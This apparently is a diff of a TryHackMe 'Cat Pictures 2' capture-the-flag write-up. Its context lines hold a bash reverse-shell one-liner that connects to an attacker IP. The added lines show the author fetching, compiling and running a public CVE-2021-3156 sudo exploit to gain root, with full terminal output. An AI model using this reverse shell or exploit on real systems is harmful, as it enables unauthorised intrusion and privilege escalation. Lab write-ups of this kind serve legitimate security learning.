

Before and after one commit to ACHUX21/Writeups, a Markdown page: TryHackMe/Cat Pictures 2/Readme.md, the part around the change printed below. Shown: that part at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/TryHackMe/Cat Pictures 2/Readme.md
+++ b/TryHackMe/Cat Pictures 2/Readme.md
@@ -160,3 +160,75 @@ Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the
 ```bash
 bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
 ```
+
+After obtaining a shell, I discovered an "id_rsa" file, which I utilized to establish a more stable shell.
+Subsequently, I attempted to exec Linpeas on the server to conduct further enumeration and analysis.
+</br>
+we have a vulnerable sudo version here.
+After patiently waiting during the Linpeas scan, I stumbled upon an interesting CVE (Common Vulnerabilities and Exposures) in the target machine. To gather more information, I conducted a Google search and came across a GitHub proof-of-concept ([! POC](https://github.com/blasty/CVE-2021-3156)) related to the discovered vulnerability.
+
+</br>
+
+## Priv-Esc
+
+Let's set up a Python3 server to share the CVE details with the target.
+
+```bash
+root@Fs:.../www/html# ll
+total 9.6M
+drwxr-xr-x 3 root  root  4.0K Jul  5 18:01 CVE-2021-3156/
+-rw-r--r-- 1 root  root  3.1M Jun  4 05:27 linpeas_linux_amd64
+-rwxrwxr-x 1 achux achux 817K Jun  6 16:41 linpeas.sh*
+-rw-rw-r-- 1 achux achux 5.7M Jun  5 23:55 nmap
+-rw-r--r-- 1 root  root   18K Jun  6 15:42 PwnKit
+root@Fs:.../www/html# webup
+Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
+```
+! note : webup /=/ alias "webup='python3 -m http.server 8000'"
+
+
+```bash
+bismuth@catpictures-ii:/$ cd /tmp; wget -r 10.18.81.222/CVE-2021-3156/
+```
+
+let's go aHead to explore the CVE
+
+```bash
+bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
+brute.sh  hax.c  lib.c  Makefile  README.md
+bismuth@catpictures-ii:/tmp/CVE-2021-3156$ make
+rm -rf libnss_X
+mkdir libnss_X
+gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
+gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
+bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
+brute.sh  hax.c  lib.c  libnss_X  Makefile  README.md  sudo-hax-me-a-sandwich
+bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich
+
+** CVE-2021-3156 PoC by blasty <peter@haxx.in>
+
+  usage: ./sudo-hax-me-a-sandwich <target>
+
+  available targets:
+  ------------------------------------------------------------
+    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
+    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
+    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
+  ------------------------------------------------------------
+
+  manual mode:
+    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
+
+bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0
+
+** CVE-2021-3156 PoC by blasty <peter@haxx.in>
+
+using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
+** pray for your rootshell.. **
+[+] bl1ng bl1ng! We got it!
+# id
+uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
+#
+```
+And now we have pwned the machine
+I appreciate your patience❤️
````
Also changed, not shown: other parts of TryHackMe/Cat Pictures 2/Readme.md (+1 -1 lines).
